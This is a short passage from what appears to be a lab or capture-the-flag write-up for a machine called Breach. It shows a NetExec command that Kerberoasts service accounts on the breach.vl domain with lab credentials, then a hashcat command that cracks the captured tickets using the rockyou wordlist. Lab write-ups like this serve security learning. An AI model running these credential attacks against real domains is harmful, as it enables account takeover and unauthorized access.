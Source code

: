 Lets kerberoast it.

We can do this using NetExec

```bash
nxc ldap breach.vl -u 'julia.wong' -p 'Computer1' --kerberoasting out.krb
```

![image.png](/assets/images/Breach_VL/image%2018.png)

Lets now crack this hash using hashcat.

```bash
hashcat -m 13100 out.krb /usr/share/wordlists/rockyou.txt
```

![image.png](/assets/images/Breach_VL/image%2019.png)
